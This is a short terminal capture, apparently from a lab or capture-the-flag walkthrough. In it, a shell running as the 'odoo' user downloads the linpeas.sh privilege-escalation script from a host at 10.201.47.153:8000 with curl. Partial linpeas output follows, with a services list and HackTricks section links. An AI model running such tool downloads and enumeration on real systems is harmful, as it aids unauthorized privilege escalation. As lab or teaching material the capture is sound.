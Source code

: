 



odoo@b8a9bbf1f380:/tmp$ curl http://10.201.47.153:8000/linpeas.sh -o linpeas.sh
<l http://10.201.47.153:8000/linpeas.sh -o linpeas.sh                        
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  227k  100  227k    0     0  23.6M      0 --:--:-- --:--:-- --:--:-- 27.8M








______________________


+] Services
[i] Search for outdated versions
 [ - ]  bootlogs
 [ - ]  bootmisc.sh
 [ - ]  checkfs.sh
 [ - ]  checkroot-bootclean.sh
 [ - ]  checkroot.sh
 [ - ]  dirmngr
 [ - ]  hostname.sh
 [ - ]  killprocs
 [ - ]  motd
 [ - ]  mountall-bootclean.sh
 [ - ]  mountall.sh
 [ - ]  mountdevsubfs.sh
 [ - ]  mountkernfs.sh
 [ - ]  mountnfs-bootclean.sh
 [ - ]  mountnfs.sh
 [ + ]  odoo
 [ - ]  procps
 [ - ]  rc.local
 [ - ]  rmnologin
 [ - ]  sendsigs
 [ - ]  ssh
 [ + ]  udev
 [ - ]  umountfs
 [ - ]  umountnfs.sh
 [ - ]  umountroot
 [ - ]  urandom
 [ - ]  x11-common

[+] Systemd PATH
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#systemd-path

[+] Analyzing .service files
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#services
You can't write on systemd PATH so I'm not going to list relative paths executed by services

[+] System timers
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#timers
